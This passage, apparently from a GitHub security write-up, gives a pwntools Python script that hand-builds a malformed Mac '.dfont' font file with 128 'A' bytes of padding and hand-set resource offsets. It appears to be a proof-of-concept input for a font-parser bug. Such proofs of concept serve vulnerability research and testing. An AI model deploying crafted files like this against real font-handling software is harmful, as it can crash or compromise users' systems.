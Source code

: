### Font file

```py
from pwn import p8, p16, p32, p64, context

# res data (132 bytes)
res_data = b""
res_data += p32(128)
res_data += b"A" * 128

res_data_offset = 16
res_data_len = len(res_data)

# res map header (16 bytes (+16 later))
res_map = b""
res_map += p32(0)   # handle to next resource map
res_map += p16(0)   # file reference number
res_map += p16(0)   # fork attributes
res_map += p16(30)  # offset to res type list
res_map += p16(50)  # offset to res name list
res_map += p16(0)   # num types in map - 1

# type list (8 bytes)
res_map += b"FOND"
res_map += p16(0)       # num of res of this type - 1
res_map += p16(8)       # offset from type list start to ref list of this type

# ref list (12 bytes)
res_map += p16(1337)        # res id
res_map += p16(0)           # offset from resource name list start to res name of this res
res_map += p8(0)            # attributes
res_map += b"\x00\x00\x00"  # offset from res data start to this res data
res_map += p32(0)           # handle to resource

# res name (17 bytes)
res_map += p8(4)
res_map += b"GGWP"

res_map_offset = res_data_offset + res_data_len
res_map_len = len(res_map) + 16     # add 16 for res header later

res_header = b""
res_header += p32(res_data_offset)
res_header += p32(res_map_offset)
res_header += p32(res_data_len)
res_header += p32(res_map_len)

res_map = res_header + res_map

with open("myfont.dfont", "wb") as out:
    out.write(res_header)
    out.write(res_data)
    out.write(res_map)
```

